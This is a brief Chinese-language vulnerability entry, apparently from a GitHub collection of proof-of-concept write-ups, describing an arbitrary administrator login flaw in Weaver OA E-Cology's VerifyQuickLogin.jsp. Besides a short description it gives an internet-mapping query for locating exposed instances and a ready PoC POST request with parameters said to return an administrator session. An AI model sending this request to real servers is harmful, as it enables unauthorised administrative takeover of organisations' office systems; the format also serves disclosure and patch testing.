

# 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

产品主页


验证POC

```
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

